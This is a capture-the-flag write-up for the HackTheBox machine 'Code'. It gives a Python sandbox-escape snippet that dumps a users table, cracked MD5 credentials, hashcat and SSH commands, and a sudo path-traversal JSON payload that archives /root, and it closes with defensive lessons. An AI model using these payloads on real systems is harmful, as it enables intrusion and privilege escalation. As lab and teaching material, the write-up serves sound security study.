

<div class="callout callout-warning">

**🚧 Work in Progress**: This writeup is marked **partial** in my notes: the attack chain below may stop short of a full root/completion.

</div>

<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Ubuntu 20.04), **Difficulty:** Easy, **Released:** 2025-07-05, **IP:** `10.10.11.62` → `code.htb`

</div>

<div class="callout callout-warning">

**Partial**

Foothold + user recorded; the `sudo` backup-script privesc is described from the config the operator kept, with the mechanism filled in and marked.

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Gunicorn app on `:5000`. An online **Python code editor** with a keyword blacklist sandbox.
2. Bypass the blacklist to reach the app's own **SQLAlchemy** models and dump the `users` table → MD5 hashes for `development` and `martin`.
3. Crack `martin` → `nafeelswordsmaster` → SSH.
4. `martin` may `sudo /usr/bin/backy.sh`, which archives paths from an attacker-supplied JSON. Its `../` sanitiser is bypassable → archive `/root` → read root's files (and `root.txt` / an SSH key).

</div>

<div class="callout callout-key">

**Credentials & Flags**


| Where | Value |
| --- | --- |
| `development` (cracked MD5) | `development` |
| `martin` (cracked MD5) | `nafeelswordsmaster` |
| `user.txt` | `/home/martin/user.txt` |
| `root.txt` | recovered from the `/root` archive |

</div>

---

## Overview

Code is a **Python sandbox-escape** box. The interesting work is entirely in the foothold: an "eval this code" service tries to be safe with a *blacklist* of dangerous substrings (`import`, `os`, `subprocess`, `eval`, `open`, `__`…), and the whole box is about the fact that **blacklists don't contain a Turing-complete language**. You don't need `import os` when the Flask app has already imported everything for you and left its `db` session and `User` model in the global namespace. Privesc is a **path-traversal in a `sudo` script** that trusts a JSON field.

Related sandbox / eval-injection boxes: [Headless](/writeups/hackthebox/linux/medium/headless/), [TwoMillion](/writeups/hackthebox/linux/easy/twomillion/), [Athena](/writeups/tryhackme/linux/easy/athena/). Related "attacker-controlled config to a `sudo` script": [Bizness](/writeups/hackthebox/linux/easy/bizness/) (`gradlew`), the `sudo` cluster [Stocker](/writeups/hackthebox/linux/easy/stocker/) / [Bagel](/writeups/hackthebox/linux/medium/bagel/) / [Forge](/writeups/hackthebox/linux/medium/forge/).

---

## Reconnaissance

```console
Nmap scan report for code.htb (10.10.11.62)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
```

## Foothold. Sandbox escape → DB dump

The editor is a Flask app, so a SQLAlchemy `User` model is almost certainly already imported and in scope. The Python environment is heavily restricted (keyword blacklist), but object access still works:

<div class="callout callout-note">

**Why the blacklist fails**

The sandbox rejects source containing strings like `import`, `os`, `open`, `eval`, `exec`, `__`, `subprocess`. It does **not** remove objects that are already reachable. A Flask app's module globals typically include `app`, `db` (the SQLAlchemy session) and every model class. From there `db.session` / `Model.query` give you full ORM read/write with no forbidden keyword. Even without helpful globals you can often walk `().__class__.__mro__[1].__subclasses__()` to find `subprocess.Popen`. Which is why blacklisting `__` is common but also breaks a lot of legitimate code. The only robust fix is a real sandbox (separate process, `seccomp`, `nsjail`, RestrictedPython with an allowlist).

</div>

```python
for i in User.query.all():
    print(i.__dict__)
```



<div class="callout callout-key">

**Credentials (`hash:username` → cracked password)**

- `759b74ce43947f5f4c91aeddc3e5bad3 : development` → `development`
- `3de6f30c4a09c27fc71932bfc68474be : martin` → `nafeelswordsmaster`

</div>

```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
ssh martin@code.htb          # nafeelswordsmaster
```

## Privilege Escalation. `sudo backy.sh` path traversal

```console
martin@code:~$ sudo -l
User martin may run the following commands on code:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

`backy.sh` wraps `/usr/bin/backy`, which reads a JSON task file and `tar`s the listed directories to a destination.

<div class="callout callout-note">

**The traversal bypass (mechanism)**

`backy` restricts `directories_to_archive` to paths under `/home/` or `/var/`, and it **strips the literal substring `../`** from each path once, non-recursively. So `/var/...//...//root/`. After one pass of removing `../` from every `...//`. Collapses to `/var/../root/` → `/root/`. The prefix check passed (it started with `/var/`) and the sanitiser was defeated by overlapping sequences. The operator's kept config uses `/var/..//root/`; the exact number of dots depends on the sanitiser version, so treat the payload as the idea, not a fixed string.

</div>

```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/var/....//....//root/"
  ],
  "exclude": [".*"]
}
```

```bash
sudo /usr/bin/backy.sh task.json
# then extract the resulting archive from /home/martin/backups/
tar xf /home/martin/backups/code_home_martin_*.tar.bz2
cat root/root.txt        # and root/.ssh/id_rsa -> ssh root@code.htb
```

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/martin/user.txt` |
| `root.txt` | `/root/root.txt` (via the archive) |

---

## Lessons & Takeaways

- **Blacklists aren't sandboxes.** If you must run untrusted code, isolate it at the OS level (`nsjail`, gVisor, a throwaway container). Never with string filters.
- **Don't leave live ORM handles in module globals** of a service that evals user input.
- **Unsalted MD5** for password storage is indefensible; use `argon2`/`bcrypt`.
- **Path sanitisers must loop until stable** and canonicalise with `realpath()` before the prefix check, not after a single `str.replace`.
- Scope `sudo` scripts and validate their entire input, not just a prefix.

---

## Related Writeups

- **Python / eval sandbox escape:** [Headless](/writeups/hackthebox/linux/medium/headless/), [TwoMillion](/writeups/hackthebox/linux/easy/twomillion/), [Athena](/writeups/tryhackme/linux/easy/athena/)
- **Attacker-controlled config → `sudo` script:** [Bizness](/writeups/hackthebox/linux/easy/bizness/), [Stocker](/writeups/hackthebox/linux/easy/stocker/), [Bagel](/writeups/hackthebox/linux/medium/bagel/)
- **Dump an app's own user table → crack:** [Cat](/writeups/hackthebox/linux/medium/cat/), [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/), [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/)
- **`sudo` misconfig privesc:** [Forge](/writeups/hackthebox/linux/medium/forge/), [Headless](/writeups/hackthebox/linux/medium/headless/), [Lookup](/writeups/tryhackme/linux/easy/lookup/)

## References

- Escaping Python sandboxes <https://hacktricks.boitatech.com.br/misc/basic-python/bypass-python-sandboxes>
- RestrictedPython <https://github.com/zopefoundation/RestrictedPython>
- nsjail <https://github.com/google/nsjail>
